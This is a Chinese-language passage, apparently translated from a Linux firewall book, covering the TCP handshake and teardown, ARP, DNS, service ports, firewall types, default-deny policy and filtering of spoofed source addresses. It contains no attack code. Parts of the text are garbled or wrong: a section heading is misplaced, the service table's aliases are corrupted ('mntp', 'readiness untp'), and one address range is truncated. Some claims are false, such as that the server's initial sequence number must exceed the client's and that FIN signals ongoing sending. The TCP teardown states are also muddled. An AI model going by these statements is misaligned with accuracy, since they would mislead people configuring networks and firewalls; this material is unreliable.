希望发起连接的通信一方（客户端）向另一方发送一个带有 `SYN` 标志的 `TCP` 段，该另一方通常被称为连接的服务端。此外，该段还包含初始序列号（`ISN`）和连接的端口号。这通常被称为 `SYN` 包或 `SYN` 段，此时连接处于 `SYN_SENT` 状态。

连接的服务端使用带有 `SYN` 标志和 `ACK` 标志的 `TCP` 段进行响应。此外，接收方设置 `ISN`，其值高于客户端发送的 `ISN`。这通常被称为 `SYN-ACK` 包或 `SYN-ACK` 段，此时连接处于 `SYN_RCVD` 状态。

### 别忘了 ARP

客户端通过发送另一个设置了 `ACK` 标志的分段来确认 `SYN-ACK`，并将初始序号（`ISN`）加一。这完成了三次握手，连接被认为处于 `ESTABLISHED`（已建立）状态。

与连接建立的协议一样，也有连接终止的协议。终止 `TCP` 连接的协议包含四个步骤，而连接建立仅需三个步骤。额外的步骤是由于 `TCP` 连接的全双工特性，因为每一方都可能在任何时刻发送数据。

在一侧关闭连接是通过发送一个设置了 `FIN` 标志的 `TCP` 分段来实现的。连接的任一方都可以发送 `FIN` 来表示它正在发送数据。另一方也可以继续发送数据。然而在实践中，收到 `FIN` 后，连接终止序列通常就会开始。在本讨论中，我将想要终止连接的一方称为该侧。


终止过程始于客户端发送一个设置了 `FIN` 标志的分段，这在服务器端称为 `CLOSE_WAIT` 状态，在客户端称为 `FIN_WAIT_1` 状态。服务器收到 `FIN` 后，向客户端发送一个 `ACK` 作为回应，并将序列号加一。此时连接进入 `FIN_WAIT_2` 状态。服务器还关闭其自身的高层协议，表明连接已终止。服务器发送一个带有 `FIN` 标志的分段给客户端，这使得服务器进入 `LAST_ACK` 状态，而客户端进入 `TIME_WAIT` 状态。最后，客户端通过一个 `ACK` 确认这个 `FIN`，并将序列号加一，这使得连接进入 `CLOSED` 状态。由于 `TCP` 连接可以由任一侧终止，`TCP` 连接可以存在于半关闭（`half-close`）模式下，即一端发起了 `FIN` 序列，而另一端尚未这样做。

`TCP` 连接可以由一端发送设置了重置（`RST`）标志的分段来终止。这告知对方使用异常释放方法。这与 `TCP` 连接的正常终止（有时称为有序释放）相对。

`TCP` 连接序列的一个可选部分是最大分段大小（`MSS`）的建立。`MSS` 是连接能够接收的最大数据块。因为 `MSS` 是连接的给定端可以接收的最大大小，所以发送比 `MSS` 小的数据块是完全没问题的。通常，你应该认为较大的 `MSS` 是好的，但要记住应避免分片，因为分片会增加开销（每个 `IP` 和 `TCP` 头部为分片数据包所需的额外字节）。

## 别忘了 ARP

地址解析协议（`ARP`）是将物理设备（如网卡）链接到 `IP` 地址的协议。网络设备使用 48 位地址（称为 `MAC` 地址），该地址在给定网段内的所有设备中都是唯一的。尽管有时设备可能拥有相同的 `MAC` 地址，但在同一个网络网段内这种情况非常罕见。

在捕获网络流量时，随着设备在传输流量过程中互相寻找位置，你会以不同的频率遇到 `ARP` 数据包。`ARP` 请求是广播的，因此所有设备都会看到它们。然而，大多数 `ARP` 回复是单播的，只有请求的设备会看到该回复。`ARP` 流量通常不在网络网段之间传递。因此，路由器可以配置为提供代理 `ARP` 服务，从而能够回答多个网络网段中的 `ARP` 请求。

### 4.5 主机名和 IP 地址

人们喜欢用词来命名事物，例如给计算机命名为 `mycomputer`、`mydomain.example.com`。从技术角度来说，被命名的不是计算机，而是计算机中的网络接口。如果计算机有多张网卡，每张卡通常会有不同的名称和地址，并且很可能位于不同的网络子网中。

主机名的元素通过点号分隔。以 `mycomputer`, `mydomain.example.com` 为例，最左边的元素 `mycomputer` 是主机名。`mydomain`、`example` 和 `.com` 是该卡所属域名卡的元素。网络域名是分层树结构。什么是域名？它是一种命名约定。分层域树表示全球域名服务（`DNS`）数据库的分层性质。`DNS` 将符号名称映射到计算机和网络，供 `IP` 层使用，以唯一标识网络接口。

`DNS` 在两个方向上进行映射：从 `IP` 地址到名称，以及从名称到 `IP` 地址。当你在 Web 浏览器中点击一个 `URL` 时，`DNS` 数据库会被查询，以找到与该主机名关联的唯一 `IP` 地址。该 `IP` 地址会被传递给 `IP` 层，作为数据包中的目的地址使用。

### 4.5.1 IP 地址和以太网地址

`IP` 层通过其 32 位 `IP` 地址来标识网络主机，而子网或链路层通过其唯一的 48 位以太网地址（或 `MAC` 地址）来标识以太网卡，该地址由制造商烧录在卡中。`IP` 地址在端点主机之间传递，用于标识自身。以太网地址在相邻主机和路由器之间传递。

通常，在防火墙讨论中可以忽略以太网地址。第 2 层硬件以太网地址对第 3 层 `IP` 级别或第 4 层传输级别是不可见的。正如你在后续章节中看到的，Linux 防火墙管理程序 `iptables` 具有扩展功能，可以访问并基于 `MAC` 地址进行过滤。这种防火墙功能有专门用途，但请记住，以太网地址不会端到端地通过整个网络传递。以太网地址在相邻接口之间传递，或者在主机或路由器之间传递。它们不会通过路由器保持不变地传递。

## 4.6 路由：将数据包从这里传送到那里

住宅站点和大多数企业都不太可能运行 `RIP` 或 `OSPF` 等路由协议。在这些情况下，路由表是手工静态设置的。这里面有一个提示。

如果你在运行 `RIP` 等路由协议，很可能你并不真正需要它；你可以在没有这种不必要开销的情况下运行一个更高效的网络。通常，大多数站点都有一个默认网关设备，即网络接口发送数据包的目的地地址的路由未知时所使用的网络。服务提供商提供一个单独的路由器地址，这是该站点本地网络的默认互联网网关。

## 4.7 服务端口：系统中程序的门户

基于网络的服务是在机器上运行的程序，网络上的其他计算机可以访问这些程序。服务端口标识正在进行的程序以及单个会话或连接。服务端口是不同基于网络服务的数字名称。它们也用作两个程序之间特定连接端点的数字标识符。服务端口号的范围从 0 到 65535。

服务器程序（即*守护进程*）在其被分配的服务端口上监听传入连接。根据历史惯例，主要网络服务被分配在 1 到 1023 较低范围内的知名或著名端口号。这些端口号到服务的映射由互联网号码分配机构（`IANA`）作为一组普遍接受的约定和标准进行协调。

一个公开的服务是可以通过其分配端口从互联网上获得的服务。如果你的机器没有提供某个特定服务，而有人尝试连接到与该服务关联的端口，什么也不会发生。有人在敲门，但没有人居住在那里应答。例如，`HTTP` 被分配到端口 80（尽管，再次强调，如果你的机器没有运行基于 `HTTP` 的 Web 服务器，且有人尝试连接到端口 80，客户端程序会从你的机器接收到一个错误消息，表明该服务未被提供，同时连接会被关闭）。

从 1024 到 65535 的较高端口号是非特权端口。它们具有双重用途。在大多数情况下，这些端口动态分配给连接的客户端端。客户端和服务器端口号对、它们的 `IP` 主机地址以及所使用的传输协议的组合，唯一标识了连接。

此外，1024 到 49151 范围内的端口已在 `IANA` 注册。这些端口可以作为通用非特权池的一部分使用，但它们也与特定服务（如 `SOCKS` 或 Windows 服务）相关联。最初，这个概念是提供在高端口上的服务不是以 root 权限运行的。它们是为用户级别的非特权程序准备的。这个约定在个别情况下可能不一定成立。

## 服务名称到端口号的映射

Linux 发行版提供了一份常见服务端口号列表。该列表位于 `/etc/services` 文件中。

每个条目包含服务的符号名称、分配给该服务的端口号、服务运行的协议（`TCP` 或 `UDP`）以及该服务的任何可选昵称。表 4.5 列出了源自 Red Hat Linux 的一些常见服务名称到端口号的映射。

### 表 4.5 常见服务名称到端口号映射

| 端口名称 | 端口号/协议 | 别名 |
| --- | --- | --- |
| ftp | 21/tcp | -- |
| telnet | 23/tcp | -- |
| smtp | 25/tcp | mail |
| nicname | 43/tcp | whois |
| domain | 53/tcp | nameserver |
| domain | 53/udp | nameserver |
| finger | 79/tcp | -- |
| http | 80/tcp | www www-http |
| pop3 | 110/tcp | pop-3 |
| auth | 113/tcp | authentication tap indent |
| mntp | 119/tcp | readiness untp |
| ntp | 123/udp | -- |
| https | 443/tcp | -- |

> 请注意，与端口号关联的符号名称因 Linux 发行版和版本而异。名称和别名有所不同；端口号没有变化。

> 还要注意，端口号与协议相关联。`IANA` 已尝试将相同的服务端口号分配给 `TCP` 和 `UDP` 两种协议，无论特定服务是否使用两种传输模式。大多数服务使用其中一种协议。域名服务同时使用两者。

作为一个示例，常见的 `TCP` 连接是通过浏览器访问网站（连接到 Web 服务器）。本节说明了连接建立和持续通信的方面，这些内容将在后续章节中涉及 `IP` 数据包过滤。

## 服务端口：系统中程序的大门

发生了什么？如 图 4.6 所示，某处机器上正在运行一个 Web 服务器，等待 `TCP` 服务端口 80 上的连接请求。你在 Netscape 中点击了 `URL` 的链接。`URL` 的一部分被解析为主机名，主机名被转换为 Web 服务器的 `IP` 地址；并为连接分配了一个非特权端口作为你的浏览器端口（`TCP` 端口 14000）。构建了发往 Web 服务器的 `HTTP` 消息。它被封装在 `TCP` 消息中，包裹在 `IP` 数据包报头中，并发送出去。就我们的目的而言，报头包含 图 4.6 中显示的字段。

报头中包含了在数据包过滤级别不可见的其他信息。尽管如此，描述与 `SYN` 和 `ACK` 标志关联的序列号有助于澄清三次握手期间发生的情况。当客户端程序发送其第一个连接请求时，`SYN` 标志伴随一个同步序列号。客户端正在请求与服务器的连接，并传递了一个起始序列号，它将用作对其将要发送的所有其余数据字节进行编号的起点。


该数据包在服务器机器上接收。它被发送到服务端口 `80`。服务器在监听端口 `80`，因此它被通知来自源 IP 地址和端口套接字对（你的 IP 地址，`14000`）的传入连接请求（`SYN` 同步请求标志）。服务器在其端分配一个新的套接字（Web 服务器地址，`80`），并将其与客户端套接字关联。



**图 4.6** 一个 `TCP` 客户端连接请求。

Web 服务器对 `SYN` 消息作出确认（`ACK`）响应，并附带其自己的同步请求（`SYN`），如 图 4.7 所示。此时连接处于半打开状态。



**图 4.7** 一个 `TCP` 服务器连接请求确认。

`SYN-ACK` 报头中包含了两个在数据包过滤级别不可见的字段。除了 `ACK` 标志外，服务器还包含了客户端的序列号，该序列号增加了接收到的连续数据字节数。确认的目的是确认其序列号所指的数据。服务器通过增加客户端的序列号来进行确认，实际上表示它已收到数据，而序列号加一是服务器期望接收的下一个数据。现在服务器已确认收到原始 `SYN` 消息，客户端可以自由地丢弃其原始 `SYN` 消息的副本了。

服务器还设置了其第一条消息中的 `SYN` 标志。与客户端的第一条消息一样，`SYN` 标志伴随一个同步序列号。服务器正在传递其自身用于连接一半的序列号。

这条消息是服务器发送的唯一带有 `SYN` 标志的消息。这条消息及所有后续消息都设置了 `ACK` 标志。在所有服务器消息中存在 `ACK` 标志，而客户端的第一条消息中缺乏 `ACK` 标志，当我们要构建防火墙时，这将是一个关键区别，因为它影响可用于构建防火墙的信息。

你的机器收到此消息并回复其自己的确认，之后连接建立。图 4.8 展示了此过程的图形表示。从这里开始，客户端和服务器都会设置 `ACK` 标志。`SYN` 标志将不再由任何程序设置。

随着每次确认，客户端和服务器程序会将其伙伴进程的序列号增加连续数据字节数加一，表示已收到该数据，并指示它们期望在流中接收的下一个数据字节。

当你的浏览器接收网页时，你的机器从 Web 服务器接收带有数据包报头的数据消息，如 图 4.9 所示。



**图 4.8** `TCP` 连接建立。



**图 4.9** 一个持续的 `TCP` 服务器到客户端连接。

## 4.8 总结

本章中的简单示例说明了 `IP` 数据包过滤防火墙所基于的信息。第 5 章“数据包过滤概念”在此基础上进行介绍，描述 `ICMP`、`UDP` 和 `TCP` 消息类型及服务端口号如何用于定义数据包过滤防火墙。

## 数据包过滤概念

什么是防火墙？多年来，这个术语的含义发生了变化。根据 `RFC 2647`《防火墙性能基准测试术语》，防火墙是“在网络之间实施访问控制策略的设备或设备组”。这个定义非常广泛，事实上是故意如此。防火墙可以涵盖 `OSI` 模型的许多层，可以指执行数据包过滤、执行检查和过滤、在较高层应用上实施策略的设备，或者做这些以及更多事情的设备。

无状态防火墙通常仅基于 `OSI` 模型的 `IP` 层（第 3 层）执行数据包过滤，尽管有时这种类型的防火墙会涉及较高层协议。这种类型设备的一个例子可能是位于网络边缘的边界路由器，它实施一个或多个访问列表以防止恶意流量类型进入网络。有些人可能会认为这种设备根本不是防火墙。然而，它似乎符合 `RFC` 的定义。

边界访问列表可能会根据数据包接收的接口实施许多策略。在连接到互联网的边缘过滤特定数据包是很常见的。这些数据包将在本章稍后讨论。

与无状态防火墙相反，有状态防火墙是一个跟踪给定会话中先前看到的数据包，并根据给定连接中已经看到的内容应用访问策略的防火墙。有状态防火墙也隐含了无状态防火墙的基本数据包过滤功能。例如，有状态防火墙会跟踪 `TCP` 三次握手阶段，并拒绝那些在握手中出现乱序的数据包。由于 `UDP` 是无连接的，对有状态防火墙来说稍微棘手一些，因为没有状态可言。有状态防火墙跟踪最近的 `UDP` 交换，以确保收到的数据包与最近的数据包相关。

应用层网关（`ALG`），有时也称为应用层网关，是防火墙的另一种形式。与有状态防火墙了解网络层和可能的传输层不同，`ALG` 主要处理 `OSI` 模型的第 7 层，即应用层。`ALG` 通常对所传递的应用数据有深入的了解，并可以查找相关应用正常流量的任何偏差。

`ALG` 通常位于客户端和真实服务器之间，出于所有实际目的，向客户端模仿真实服务器的行为。实际上，本地流量从不离开 `LAN`，远程流量从不进入 `LAN`。

`ALG` 有时也指代一种模块，即辅助其他防火墙的软件组件。许多防火墙都附带 `FTP ALG`，以支持 `FTP` 端口模式的数据通道。在这种模式下，客户端告知服务器它要连接的本机端口，从而打开数据通道。由服务器发起传入的数据通道连接（而通常所有连接都由客户端发起）。由于多媒体会话通常使用两端的多条连接，且一般同时结合使用 `TCP` 和 `UDP`，因此多媒体协议通过防火墙时经常需要 `ALG` 的支持。

`ALG` 是一种代理。另一种形式的代理是电路级代理。电路级代理通常不具备应用层特有的知识；但它们可以执行访问授权策略，并作为原本端到端连接的终止点。`SOCKS` 就是一种电路级代理的示例。代理服务器作为连接双方的终止点，但该服务器不具备任何应用层特有的知识。

在上述每种情况中，防火墙的目的都是强制执行你所定义的访问控制或安全策略。安全策略本质上关乎访问控制——即谁不被允许在你控制的服务器和网络上执行操作。

虽然不一定特定于防火墙，但防火墙常常需要执行一些任务，这些任务可能包括网络地址转换（`NAT`）、病毒查杀、事件通知、`URL` 过滤、用户认证以及网络层加密。

第四章“数据包过滤防火墙的基础概念”介绍了防火墙所依据的概念和信息。本章将介绍如何利用这些信息来实施防火墙规则。

## 5.1 数据包过滤防火墙

在最基本的层面上，数据包过滤防火墙由一个允许和拒绝规则列表组成。这些规则明确定义了哪些数据包将被允许通过、哪些将被禁止通过该网络接口。防火墙规则利用第四章中描述的数据包头字段来决定是将数据包转发至其目的地址、静默丢弃数据包，还是阻止数据包并向发送方返回错误状态。这些规则可以基于多种因素，包括源或目的 `IP` 地址、目的端口、单个数据包的某些部分（如 `TCP` 头标志位）、协议类型、`MAC` 地址等。

`MAC` 地址过滤在连接互联网的防火墙上并不常见。使用 `MAC` 过滤时，防火墙仅允许或阻止特定的 `MAC` 地址。然而，你极有可能只能看到一个 `MAC` 地址，即紧挨着你防火墙的路由器的 `MAC` 地址。这意味着，在你的防火墙看来，互联网上的每个主机都表现出相同的 `MAC` 地址。新防火墙管理员常犯的一个错误就是试图在互联网防火墙上使用 `MAC` 过滤。

使用 `TCP/IP` 参考模型的混合视角，数据包过滤防火墙在网络层和传输层工作，如图 5.1 所示。



| 层级 | 描述 |
| :--- | :--- |
| 应用层 | 客户端和服务器程序 |
| | Telnet 客户端、Web 服务器 |
| 传输层 | `TCP` 和 `UDP` 协议及服务端口 |
| | `TCP/UDP` 源端口和目的端口 |
| | `TCP` 连接状态标志 |
| 网络层 | `IP` 数据包、`IP` 地址和 `ICMP` 消息 |
| | `IP` 源地址和目的地址 |
| | `ICMP` 控制代码 |
| 数据链路层 | 以太网帧和 `MAC` 地址 |
| | 网卡（Network Interface Card） |
| 物理层 | 铜缆、光纤、微波、无线电 |

**图 5.1** 防火墙在 `TCP/IP` 参考模型中的位置。

总体思路是，你需要仔细控制互联网与你直接连接到互联网的设备之间传递的内容。在面向互联网的外部接口上，你应尽可能精确且明确地过滤从外部传入的内容以及从设备传出的内容。

对于单机器配置，将网络接口视为一对输入/输出（I/O）可能非常有帮助。防火墙独立过滤通过该接口传入和传出的内容。输入过滤和输出过滤可以拥有完全不同的规则。在谈论 `Linux` 防火墙时，定义什么可以传入和什么可以传出的规则列表被称为**链**（`chains`）。这对 I/O 对应于输入链上的规则列表和输出链上的规则列表。之所以列为**链**，是因为数据包会与列表中的每条规则逐一进行匹配，直到找到匹配项或列表用尽，如图 5.2 所示。



**图 5.2** 输入链和输出链。


这听起来很完美，确实如此；但这并不构成足够的安全机制。它只是故事的一部分，仅是数据多层架构中的一部分。并非所有通信协议都适合进行数据包过滤。这种过滤层级太低，无法实现细粒度的身份验证和访问控制。这些安全服务必须在更高的层级提供。`IP`协议不具备验证发送者身份是否与其声称一致的能力。在此层级可用的识别信息是`IP`数据包报头中的源地址。源地址很容易被修改。在上一层，网络层和传输层均无法验证应用数据是否正确。尽管如此，数据包层级允许对直接端口访问、数据包内容以及可以在更高层级轻松或方便执行的正确通信协议进行更简单的控制。

没有数据包级过滤，更高层级的过滤和代理安全措施将被削弱或潜在失效。至少在某种程度上，它们必须依赖于底层通信协议的正确性。安全协议栈中的每一层都增加了其他层级难以提供的额外功能。

## 5.2 选择默认的数据包过滤策略

如本章前面所述，防火墙是用于实施访问控制策略的设备。该策略的重要组成部分是确定默认的防火墙策略。默认防火墙策略有两种基本方法：

- 默认拒绝所有内容，并明确允许选定的数据包通过。
- 默认接受所有内容，并明确拒绝选定的数据包通过。

毫无疑问，拒绝所有内容（deny-everything）的策略是推荐的方法。这种方法更容易构建安全的防火墙，但你必须明确启用每个服务及相关协议事务（参见图 5.3）。这意味着你必须理解你启用的每个服务的通信协议。拒绝所有内容的策略在启用互联网访问方面需要前期投入更多工作。一些商业防火墙产品仅支持拒绝所有内容策略。



**图 5.3** 默认拒绝所有内容策略。

接受所有内容（accept-everything）的策略使系统能立即投入运行，但它迫使你预见到你可能想要禁用的每一种可能的访问类型（参见图 5.4）。危险在于，你可能无法预见危险的访问类型，直到为时已晚；或者你稍后启用了不安全的服务，而未先阻止外部对该服务的访问。归根结底，开发一个安全的接受所有内容防火墙需要更多的工作，难度更大，几乎总是安全性更低，因此更容易出错。



**图 5.4** 默认接受所有内容策略。

### 5.3 拒绝数据包与丢弃数据包

`iptables`中的`Netfilter`防火墙机制让你可以选择拒绝（reject）或丢弃（drop）数据包。两者的区别是什么？如图 5.5 所示，当数据包被拒绝时，数据包被丢弃，并向发送方返回一个`ICMP`错误消息。当数据包被丢弃时，数据包被直接丢弃，且不会向发送方发出任何通知。



**图 5.5** 拒绝与丢弃数据包的比较。

静默丢弃数据包通常是更好的选择，原因有三。首先，发送错误响应会使网络流量翻倍。被丢弃的大多数数据包之所以被丢弃，是因为它们具有恶意性，而不是因为代表了对某项您未提供的服务的无辜访问尝试。其次，如果您响应了某个数据包，该数据包可能被用于拒绝服务（`DoS`）攻击。第三，任何响应，即使是错误消息，也可能向潜在的 attackers 提供有用的信息。

## 5.4 过滤传入数据包

在外部接口的 I/O 对中，输入侧的输入链在保护您的站点方面更值得关注。如前所述，您可以基于源地址、目标地址、源端口、目标端口以及`TCP`状态标志进行过滤。您将在以下章节中的某个时点了解所有这些信息的细节。

### 5.4.1 远程源地址过滤

在数据包层面，识别`IP`数据包发送者的唯一手段是数据包头部的源地址。这一事实使得源地址欺骗成为可能，即发送者在源字段中填入错误的地址，而不是其自身的地址。该地址可能是一个不存在的地址，也可能是一个属于他人的合法地址。这可能允许不良分子通过伪装成本地可信流量、在攻击其他站点时伪装成您、在攻击您时伪装成他人、让您的系统因响应不存在的地址而陷入停滞，或者通过其他手段误导您关于传入消息来源的判断，从而入侵您的系统。

重要的是要记住，您通常无法检测到被欺骗的地址。该地址可能是合法且可路由的，但可能不属于数据包的发送者。下一节将描述您可以检测到的被欺骗地址。

#### 源地址欺骗与非法地址

在您有外部接口的情况下，有 10 类主要的源地址在所有情况下都应予以拒绝。这些声称来自以下来源的传入数据包：

- **您的 IP 地址**——您永远不会看到声称来自您机器的非法数据包。由于源地址是仅有的可用信息且可被修改，这是您在数据包过滤层面可以检测到的一种合法地址欺骗形式。来自您机器的传入数据包无法确定其他传入数据包是否确实来自其声称的来源。（请注意，如果源地址和目标地址都属于主机网络接口，某些操作系统会崩溃）。
- **您的 LAN 地址**——在外部互联网接口上，您很少会看到声称来自您局域网的非法数据包。如果局域网具有多个互联网接入点，则可能会出现此类数据包，但这很可能表明本地网络配置错误。在大多数情况下，此类数据包可能是试图利用您的信任关系来访问您站点的尝试的一部分。
- **A、B 和 C 类私有 IP 地址**——历史 A、B 和 C 类地址范围中的这三组地址保留供私有局域网使用。它们不打算用于互联网。因此，任何站点内部都可以使用这些地址，而无需购买注册的 IP 地址。您的机器绝不应该看到来自这些源地址的传入数据包：
    - A 类私有地址分配范围是 `10.0.0.0` 到 `10.255.255.255`。
    - B 类私有地址分配范围是 `172.16.0.0` 到 `172.31.255.255`。
    - C 类私有地址分配范围是 `192.168.0.0` 到 `192.168.255.255`。
- **D 类多播 IP 地址**——D 类地址范围中的 IP 地址保留用于参与多播网络广播时的目标地址，例如音频广播或网络广播。它们的范围从 `224.0.0.0` 到 `239.255.255.255`。您的机器绝不应该看到来自这些源地址的数据包。
- **E 类保留 IP 地址**——E 类地址范围中的 IP 地址保留用于未来和实验性用途，并不公开分配。它们的范围从 `240.0.0.0` 到 `247.255.255.255`。您的机器绝不应该看到来自这些源地址的数据包——而且很可能看不到。（因为整个地址范围直到 `255.255.255.255` 都被永久保留，E 类范围实际上可以定义为 `240.0.0.0` 到 `255.255.255.255`。事实上，一些来源确实将 E 类范围定义为正是这样）。
- **环回接口地址**——环回接口是一个私有网络接口，`Linux`系统使用它进行基于网络的本地服务。操作系统通过环回接口走捷径，而不是通过网络接口驱动发送本地流量，以此作为性能优化。根据定义，环回流量旨在发往生成该流量的系统。它不会发送到网络上。环回地址范围是 `127.0.0.0` 到 `127.255.255.255`。您通常会看到它被引用为 `127.0.0.1`、`localhost` 或环回接口。
- **格式错误的广播地址**——广播地址是适用于网络上所有机器的特殊地址。地址 `0.0.0.0` 是一个特殊的广播源地址。合法的广播源地址要么是 `0.0.0.0`，要么是一个通用的 IP 地址。`DHCP`客户端和服务器会看到来自源地址 `0.0.0.0` 的传入数据包。这是该源地址的唯一用途。它不是一个合法的点对点单播源地址。当我们看到常规点对点非广播数据包中的源地址时，该地址是伪造的，或者发送者未完全配置好。
- **A 类网络地址**——如前所述，`0.0.0.0` 到 `255.255.255` 范围内的任何源地址作为单播地址都是非法的。
- **链路本地网络地址**——当 `DHCP`客户端无法从服务器获取地址时，有时会给自身分配一个本地地址。这些地址的范围从 `169.254.0.0` 到 `169.254.255.255`。
- **测试地址**——从 `192.0.2.0` 到 `192.0.2.255` 的地址空间保留用于测试用途。

`IANA`保留了许多其他地址块，且目前未在使用。根据经验，过滤掉这些额外的地址块是有益的。然而，这样做存在危险：随着 IPv4 空间的紧张和互联网站点数量的增长，`IANA`自 2000 年中期以来更频繁地分配这些地址块。除非您定期监控 `IANA` 的地址块分配情况，否则迟早您会阻塞合法地址。

无意中新分配合法地址的阻塞对住宅站点来说无关紧要。商业站点需要在维持访问与持续监控所有分配地址的成本之间保持平衡。对于遭受持续 `DoS`攻击的互联网企业来说，付出努力可能符合其最大利益，从而简单地减少其站点响应的被欺骗源地址数量。

#### 阻塞问题站点

另一种常见但较少使用的源地址过滤方案是阻塞来自选定机器或更通常地说是来自整个网络 IP 块的所有访问。这是互联网社区处理未监管用户的问题站点和 ISP 的方式。如果一个站点获得了不良互联网邻居的名声，其他站点往往会全面阻塞该站点。

在个人层面上，当远程网络中的个人习惯性制造麻烦时，阻塞来自选定网络的所有访问很方便。这在历史上被用作对抗垃圾邮件的手段，有些人甚至走到了阻塞整个国家的 IP 地址范围的地步。

### 将传入数据包限制为选定的远程主机


您可能希望仅接受来自特定外部站点或个人的某些类型的传入数据包。在这些情况下，防火墙规则将定义特定的 IP 地址或这些数据包将被接受的有限 IP 地址范围。

第一类传入数据包是来自响应您请求的远程服务器。虽然某些服务（如 Web 或 FTP 服务）预计可能来自任何地方，但其他服务将合法地仅来自您的 ISP 或特别选定的主机。仅通过您的 ISP 提供的服务器示例包括 POP 邮件服务、域名服务（DNS）名称服务器响应器，以及可能的动态 IP 地址分配。

第二类传入数据包是来自访问您站点提供服务的远程客户端。同样，虽然某些传入连接（如连接到您的 Web 服务器）预计可能来自任何地方，但其他本地服务将仅提供给少数可信用户或朋友。受限本地服务的示例可能是 `ssh` 和 `ping`。

